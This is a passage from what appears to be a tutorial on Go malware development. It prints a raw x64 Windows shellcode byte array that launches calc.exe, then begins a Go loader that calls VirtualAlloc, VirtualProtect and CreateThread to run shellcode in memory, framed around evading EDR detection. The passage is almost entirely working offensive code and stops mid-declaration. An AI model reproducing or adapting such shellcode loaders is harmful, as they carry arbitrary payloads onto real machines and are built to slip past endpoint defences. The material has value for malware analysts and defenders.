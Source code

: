 ```go  
0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52, 0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44, 0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34, 0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd8, 0x58, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49, 0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59, 0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 0x58, 0x41, 0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 0xff, 0xff, 0x5d, 0x48, 0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff, 0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e, 0x65, 0x78, 0x65, 0x00,
```  

![](/assets/images/go-malware/go-malware-payload-hexdump.png) 

```  
go run sample-1.go
```  

**sample-1.go: unencrypted shellcode gets pushed to memory. This gets easily busted by edr.**  

```go  
package main

import (
	"syscall"
	"unsafe"
)

var (
	kernel32            = syscall.NewLazyDLL("kernel32.dll")
	ntdll               = syscall.NewLazyDLL("ntdll.dll")
	virtualAlloc        = kernel32.NewProc("VirtualAlloc")
	virtualProtect      = kernel32.NewProc("VirtualProtect")
	createThread        = kernel32.NewProc("CreateThread")
	waitForSingleObject = kernel32.NewProc("WaitForSingleObject")
```